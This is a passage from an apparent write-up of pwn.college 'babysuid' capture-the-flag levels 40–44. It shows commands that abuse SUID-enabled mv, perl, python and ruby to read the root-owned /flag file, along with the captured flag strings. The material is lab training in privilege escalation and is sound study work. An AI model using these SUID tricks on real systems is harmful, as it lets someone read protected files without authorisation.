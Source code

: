 ```bash
$  mv /usr/bin/cat /usr/bin/mv && ./babysuid_level40 && mv /flag
Welcome to ./babysuid_level40!

This challenge is part of a series of programs that
let you get the flag by doing tricks with permissions.

I just set the SUID bit on /usr/bin/mv.
Try to use it to read the flag!

IMPORTANT: make sure to run me (./babysuid_level40) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/mv!
pwn.college{IsS_qm6D7HBmDndCzMOq0jD5n7S.QXygTMsMDN3IzW}
```

<div align="center">
    <h1> Programming Languages </h1> 
</div>

### Level 41 - perl

After we enter the command, we need to press `enter` to get the flag.

```bash
$ LC_ALL=en_US.UTF-8 perl -pe 'BEGIN { open(FILE, "<", "/flag") or die "Cannot open file /flag: $!"; } print while <FILE>; close(FILE);' 
perl: warning: Setting locale failed.
perl: warning: Please check that your locale settings:
        LANGUAGE = (unset),
        LC_ALL = "en_US.UTF-8",
        LC_CTYPE = "C.UTF-8",
        LANG = "en_US.UTF-8"
    are supported and installed on your system.
perl: warning: Falling back to the standard locale ("C").

pwn.college{0ZaXAqqFTl-8p4w1F9eP3TcYcig.QXzgTMsMDN3IzW
```

### Level 42 - python

We can simply do `python /flag` to get the flag as error.

### Level 43 - ruby

Same as before

```bash
$ ruby /flag
/flag:1: syntax error, unexpected local variable or method, expecting '}'
pwn.college{06kxXyrzYst2E0pz5a-46koeJJS.QX1gTMsMDN3IzW}
```

### Level 44 - bash
